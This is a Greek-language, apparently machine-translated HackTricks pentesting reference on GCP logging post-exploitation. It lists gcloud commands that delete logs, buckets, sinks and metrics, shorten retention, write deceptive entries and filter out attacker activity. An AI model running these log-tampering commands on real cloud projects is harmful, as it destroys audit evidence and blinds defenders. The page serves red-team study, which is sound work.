 # GCP - Καταγραφή μετά την εκμετάλλευση

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Βασικές Πληροφορίες

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../gcp-services/gcp-logging-enum.md" %}
[gcp-logging-enum.md](../gcp-services/gcp-logging-enum.md)
{% endcontent-ref %}

Για άλλους τρόπους αναταραχής της παρακολούθησης ελέγξτε:

{% content-ref url="gcp-monitoring-post-exploitation.md" %}
[gcp-monitoring-post-exploitation.md](gcp-monitoring-post-exploitation.md)
{% endcontent-ref %}

### Προεπιλεγμένη Καταγραφή

Από προεπιλογή δεν δημιουργούνται καταγραφές για τις ενέργειες **`GetIamPolicy`**, οπότε μια απαρίθμηση των δικαιωμάτων δεν θα καταγραφεί.\
Επιπλέον, για να ενεργοποιήσετε αυτές τις καταγραφές πρέπει να **ενεργοποιήσετε τις καταγραφές ανάγνωσης διαχειριστή για κάθε υπηρεσία** που θέλετε να παρακολουθείτε. Για παράδειγμα, για να λάβετε ενέργειες `GetIamPolicy` για `Projects` πρέπει να έχετε `Admin Read` για τους `Cloud Resources` και για να λάβετε ενέργειες `GetIamPolicy` για αντικείμενα `Pub/Sub` (για παράδειγμα) πρέπει να ενεργοποιήσετε το `Admin Read` για αυτά.\
Σύνδεσμος για ενεργοποίηση περισσότερων καταγραφών υπηρεσιών: [https://console.cloud.google.com/iam-admin/audit](https://console.cloud.google.com/iam-admin/audit)

Σημειώστε ότι από προεπιλογή αυτές οι καταγραφές δεν είναι ενεργοποιημένες επειδή μπορεί να είναι πολλές, αυξάνοντας τον θόρυβο στις καταγραφές και το κόστος, οπότε είναι πιθανό να μην τις ενεργοποιούν πολλοί οργανισμοί GCP.

### Ανάγνωση καταγραφών - `logging.logEntries.list`

{% code overflow="wrap" %}
```bash
# Read logs
gcloud logging read "logName=projects/your-project-id/logs/log-id" --limit=10 --format=json

# Everything from a timestamp
gcloud logging read "timestamp >= \"2023-01-01T00:00:00Z\"" --limit=10 --format=json

# Use these options to indicate a different bucket or view to use: --bucket=_Required  --view=_Default
```
{% endcode %}

### `logging.logs.delete`

{% code overflow="wrap" %}
```bash
# Delete all entries from a log in the _Default log bucket - logging.logs.delete
gcloud logging logs delete <log-name>
```
### Εγγραφή καταγραφών - `logging.logEntries.create`

{% code overflow="wrap" %}
```bash
# Write a log entry to try to disrupt some system
gcloud logging write LOG_NAME "A deceptive log entry" --severity=ERROR
```
### `logging.buckets.update`

{% code overflow="wrap" %}
```bash
# Set retention period to 1 day (_Required has a fixed one of 400days)

gcloud logging buckets update bucketlog --location=<location> --description="New description" --retention-days=1
```
{% endcode %}

### `logging.buckets.delete`
```bash
# Delete log bucket
gcloud logging buckets delete BUCKET_NAME --location=<location>
```
### `logging.links.delete`

{% code overflow="wrap" %}
```bash
# Delete link
gcloud logging links delete <link-id> --bucket <bucket> --location <location>
```
{% endcode %}

### `logging.views.delete`
```bash
# Delete a logging view to remove access to anyone using it
gcloud logging views delete <view-id> --bucket=<bucket> --location=global
```
### `logging.views.update`

{% code overflow="wrap" %}
```bash
# Update a logging view to hide data
gcloud logging views update <view-id> --log-filter="resource.type=gce_instance" --bucket=<bucket> --location=global --description="New description for the log view"
```
{% endcode %}

### `logging.logMetrics.update`

{% code overflow="wrap" %}
```bash
# Update log based metrics - logging.logMetrics.update
gcloud logging metrics update <metric-name> --description="Changed metric description" --log-filter="severity>CRITICAL" --project=PROJECT_ID
```
{% endcode %}

### `logging.logMetrics.delete`
```bash
# Delete log based metrics - logging.logMetrics.delete
gcloud logging metrics delete <metric-name>
```
### `logging.sinks.delete`

Η εντολή `logging.sinks.delete` χρησιμοποιείται για τη διαγραφή ενός sink καταγραφής στο Google Cloud Logging. Οι sinks καταγραφής χρησιμοποιούνται για την αποστολή καταγραφών από το Cloud Logging σε άλλες υπηρεσίες ή αποθηκευτικούς χώρους. Η εντολή αυτή επιτρέπει την απεγκατάσταση ενός sink που δεν χρειάζεται πλέον, εξοικονομώντας χώρο αποθήκευσης και πόρους. 

Για να χρησιμοποιήσετε την εντολή `logging.sinks.delete`, ακολουθήστε τα παρακάτω βήματα:

1. Ανοίξτε το Cloud Shell ή εκτελέστε την εντολή από το τοπικό σας περιβάλλον.
2. Εκτελέστε την εντολή `gcloud logging sinks delete [SINK_NAME]` για να διαγράψετε τον επιθυμητό sink καταγραφής. Αντικαταστήστε το `[SINK_NAME]` με το όνομα του sink που θέλετε να διαγράψετε.

Με αυτόν τον τρόπο, μπορείτε να διαχειριστείτε τους sinks καταγραφής στο Google Cloud Logging και να διαγράψετε εκείνους που δεν είναι πλέον απαραίτητοι.
```bash
# Delete sink - logging.sinks.delete
gcloud logging sinks delete <sink-name>
```
### `logging.sinks.update`

{% code overflow="wrap" %}
```bash
# Disable sink - logging.sinks.update
gcloud logging sinks update <sink-name> --disabled

# Createa filter to exclude attackers logs - logging.sinks.update
gcloud logging sinks update SINK_NAME --add-exclusion="name=exclude-info-logs,filter=severity<INFO"

# Change where the sink is storing the data - logging.sinks.update
gcloud logging sinks update <sink-name> new-destination

# Change the service account to one withuot permissions to write in the destination - logging.sinks.update
gcloud logging sinks update SINK_NAME --custom-writer-identity=attacker-service-account-email --project=PROJECT_ID

# Remove explusions to try to overload with logs - logging.sinks.update
gcloud logging sinks update SINK_NAME --clear-exclusions

# If the sink exports to BigQuery, an attacker might enable or disable the use of partitioned tables, potentially leading to inefficient querying and higher costs. - logging.sinks.update
gcloud logging sinks update SINK_NAME --use-partitioned-tables
gcloud logging sinks update SINK_NAME --no-use-partitioned-tables
```
{% endcode %}

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
